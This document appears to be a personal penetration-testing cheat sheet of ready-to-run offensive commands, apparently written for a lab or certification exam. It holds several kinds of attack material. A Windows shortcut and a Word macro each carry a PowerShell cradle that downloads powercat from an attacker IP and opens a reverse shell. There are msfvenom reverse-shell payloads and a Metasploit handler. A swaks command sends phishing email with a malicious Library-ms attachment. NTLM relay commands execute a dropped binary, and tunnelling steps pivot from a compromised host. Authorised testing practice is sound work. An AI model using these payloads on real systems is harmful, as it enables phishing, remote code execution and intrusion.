 ```yaml
---

---
```

# Remote Connection

--------
## xfreerdp

```bash
xfreerdp /u:<user> /p:'<pass>' /v:<ip> -f -grab-keyboard
```

# Metasploit

-----
## Quick Meterpreter Handler

```bash
msfconsole -q -x 'use exploit/multi/handler;set LHOST tun0;set PAYLOAD windows/x64/meterpreter/reverse_tcp; run'
```

## MSFVenom

**Windows x64 Meterpreter**

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -f exe > backup.exe
```

# Phishing

--------
## WebDav

**1. Create local handler**

```bash
~/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/turtle/offsec/
```

**2. Create config.Library-ms file (change IP)**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.247</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

**3. Create shortcut** (change IP)

```js
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.247:8000/powercat.ps1'); powercat -c 192.168.45.247 -p 4444 -e powershell"
```

**4. Transfer to Kali**

```bash
impacket-smbserver share . -smb2support -username admin -password admin
```

**5. Start powercat and netcat listeners on Kali**

```bash
nc -nvlp 4444
python3 -m http.server 8000
```

**(Optional) 6. Send via email**

```bash
sudo swaks -t daniela@beyond.com -t marcus@beyond.com --from john@beyond.com --attach @config.Library-ms --server 192.168.210.242 --body @body.txt --header "Subject: Very real email please open" --suppress-data -ap
```

## Macro

1. Create Word/Excel-97 compatible doc
2. `view` > `macros`

```powershell
$Text = 'IEX(New-Object System.Net.WebClient).DownloadString("http://192.168.45.193/powercat.ps1");powercat -c 192.168.45.193 -p 443 -e powershell'

$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

$EncodedText =[Convert]::ToBase64String($Bytes)

$EncodedText
```

## Tunneling

-------
## Ligolo-ng

**Set up**

```bash
sudo ip tuntap add user turtle mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert
```

**From compromised box**

```js
./agent -connect IP:11601 -ignore-cert
.\agent.exe -connect IP:11601 -ignore-cert
```

**Add route (kali)**

```js
sudo ip route add 192.168.96.0/24 dev ligolo
```

**Add listener (in this case for responder)**

```
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:445 --tcp
listener_add --addr 0.0.0.0:445 --to 127.0.0.1:445 --tcp
```
# Bloodhound

-------

**Remote bloodhound**

```bash
dnschef --fakeip <DC IP>
```

```bash
bloodhound-python -c all -u <user> -p '<pass>' -d <domain> -dc <FQDN> -ns 127.0.0.1 --zip --dns-timeout 30
```

> [!info] DNSChef fixes a DNS timeout problem which can occur with bloodhound.py 
> 
> (often occurs when tunneling DNS, idk why)

# Relaying

--------

**Relay to target and execute file**

```bash
sudo impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.210.242 -e backup.exe
```

> [!info] Look for "SSRF" on Windows machine for potential relay vectors.
> 
> Anywhere you can force a Windows machine to make a connection can potentially be used for relaying. The connection and service type doesn't matter (could be SMB, HTTP, MSSQL etc). Relaying can be used for code execution, priv esc, or info leak, try everything.

# Rustscan

-----

```bash
sudo rustscan <IP> -- -A -sCV -oA <outfile>
```

